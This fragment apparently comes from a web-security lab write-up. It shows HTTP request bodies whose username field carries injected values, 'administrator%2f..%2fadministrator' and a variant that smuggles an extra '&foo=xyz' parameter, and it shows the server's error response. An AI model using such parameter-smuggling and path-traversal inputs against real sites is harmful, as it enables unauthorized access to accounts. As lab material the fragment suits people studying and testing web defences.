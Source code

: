 

input: csrf=TcFWsJPxOJ2IyUkHkZpRsMysbOnRjzNp&

username=administrator%2f..%2fadministrator
![alt text](image-32.png)

output: csrf=TcFWsJPxOJ2IyUkHkZpRsMysbOnRjzNp&username=administrator%2f..%2fadministrator

input: csrf=TcFWsJPxOJ2IyUkHkZpRsMysbOnRjzNp&username=administrator%2f..%2fadministrator%26foo=xyz

![alt text](image-33.png)

output:
{
  "type": "error",
  "result": "The provided username \"administrator&foo=xyz\" does not exist"
}
